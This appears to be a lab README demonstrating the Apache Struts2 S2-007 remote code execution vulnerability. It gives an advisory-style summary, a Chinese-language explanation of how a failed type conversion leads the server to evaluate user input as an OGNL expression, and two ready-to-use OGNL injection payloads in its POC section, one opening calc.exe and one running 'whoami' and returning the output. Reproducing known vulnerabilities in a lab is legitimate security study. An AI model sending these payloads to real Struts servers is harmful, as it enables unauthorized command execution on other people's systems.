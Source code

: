 # S2-007 Demo

## Summary

| Impact of vulnerability | Remote Code Execution                                        |
| :---------------------- | ------------------------------------------------------------ |
| Maximum security rating | Important                                                    |
| Recommendation          | Developers should either upgrade to [Struts 2.2.3.1](http://struts.apache.org/download.cgi#struts2231) or apply the configuration changes described below |
| Affected Software       | Struts 2.0.0 - Struts 2.2.3                                  |
| Original JIRA Tickets   | [WW-3668](https://issues.apache.org/jira/browse/WW-3668)     |
| Reporter                | Hideyuki Suzumi                                              |
| CVE Identifier          | -                                                            |

## Problem

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析，从而造成远程代码执行。 

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC



![{A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031]({A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031.jpg)

payload:

- open `calc.exe`

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("calc")) + '
  ```

- run command

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
  ```

## Reference

- [S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)


* [【Struts2-命令-代码执行漏洞分析系列】S2-007](https://xz.aliyun.com/t/2684)

* [S2-007](https://cwiki.apache.org/confluence/display/WW/S2-007)